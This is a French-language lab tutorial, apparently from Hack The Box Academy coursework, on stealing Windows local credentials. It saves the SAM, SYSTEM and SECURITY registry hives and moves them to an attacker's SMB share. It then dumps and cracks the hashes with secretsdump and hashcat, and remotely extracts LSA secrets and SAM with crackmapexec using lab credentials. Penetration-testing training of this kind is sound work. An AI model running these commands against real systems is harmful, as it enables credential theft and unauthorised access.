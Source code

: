# Attaque du SAM

En ayant accès à un système Windows n'ayant pas join de domaine, on peut facilement récupérer les fichiers associés à la BDD SAM (contenant les hashes des mdp qui se trouve dans le dossier C:\Windows\System32\config) et les transférer à notre machine afin de les cracker offline.

## Copie des ruches de registres
En ayant un accès admin local sur la cible, on peut récupérer 3 ruches de registres qui vont aider à cracker les hashes.

| Répertorie de registres | Description                                                                                                                                                                              |
|-------------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| hklm\sam                | Contient les hachages associés aux mots de passe des comptes locaux. Nous aurons besoin de ces hachages pour les craquer et obtenir les mots de passe des comptes utilisateurs en clair. |
| hklm\system             | Contient la clé de démarrage du système, qui est utilisée pour chiffrer la base de données SAM. Nous aurons besoin de la clé de démarrage pour déchiffrer la base de données SAM.         |
| hklm\security           | Contient les informations d'identification en cache pour les comptes de domaine. Il peut être avantageux de l'avoir sur une cible Windows reliée à un domaine.                           |
On peut sauvegarder cette ruche en utilisant l'utilitaire **reg.exe**.

## Utilisation de reg.exe save pour copier les ruches du registre

Il faut sauvegarder en local les ruches de registres en utilisant le CMD en admin :

```console
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save
C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save
C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```
Ensuite, il faut les transférer sur le poste attaquant. On peut utiliser [Impacket's smbserver.py](https://github.com/fortra/impacket/blob/master/examples/smbserver.py) pour cela.

## Création d'une ressource partagé avec smbserver.py
Pour cela, nous allons lancer le script python smbserver.py avec l'option **-smb2support** qui permet de supporter les nouvelles version de smb venant de l'hôte Windows (SMBv1 par défaut).

```console
Misoko@htb[/htb]$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support Misoko ~/Documents/
```
Une fois que le partage fonctionne sur notre hôte d'attaque, on peut utiliser la commande **move** sur la cible Windows pour déplacer les copies de ruches sur le partage

## Déplacer les copies de ruches sur le partage
```console
C:\> move sam.save \\10.10.15.16\Misoko
C:\> move security.save \\10.10.15.16\Misoko
C:\> move system.save \\10.10.15.16\Misoko
```
On peut faire un ls sur le share afin d'être sûr d'avoir récupérer les copies des ruches.

## Dump des hashes avec Impacket's secretsdump.py
Impacket's secretsdump.py est installé sur la plupart des distribution, on peut le retrouver avec **locate**.

### Utilisation de secretsdump.py

```console
Misoko@htb[/htb]$ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
On peut voir dans l'output de la commande que la première étape de secretsdump consiste à récupérer la clé de démarrage du système avant de procéder au dump de **LOCAL SAM hashes**.
Il ne peut pas le faire sans la clé car la BDD SAM est chiffré par cette dernière.

## Cracker le hash avec Hashcat
### Ajouter ntshash dans un fichier .txt
Auparavant les hash avait le format LM hash, maintenant on utilise plutôt le nt.
Une fois dans le fichier texte, on peut cracker le hash avec hashcat.

### Cracker un hash NT avec Hashcat
Le paramétrage de hashcat dépend du type de hash que l'on veut craquer. Pour cela, se référer à la documentation de l'outil.
Dans l'exemple ici, on va utiliser l'option **-m 1000** et la base de credentials rockyou.
```console
Misoko@htb[/htb]$ sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

## Dumping à distance & Secrets LSA

Explication des secrets LSA : [Secret LSA](https://www.passcape.com/index.php?section=docsys&cmd=details&id=23)
Avec l'accès aux credentials en tant que **local admin**, on peut cibler les secrets LSA à travers un réseau. On peut donc récupérer des credentials depusi un service en cours d'exécution, tâche planifiée ou application qui utilise les secrets LSA comme stockage de mot de passes.

### Dumping de Secrets LSA à Distance
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```

### Dumping de SAM à Distance
```console
Misoko@htb[/htb]$ crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```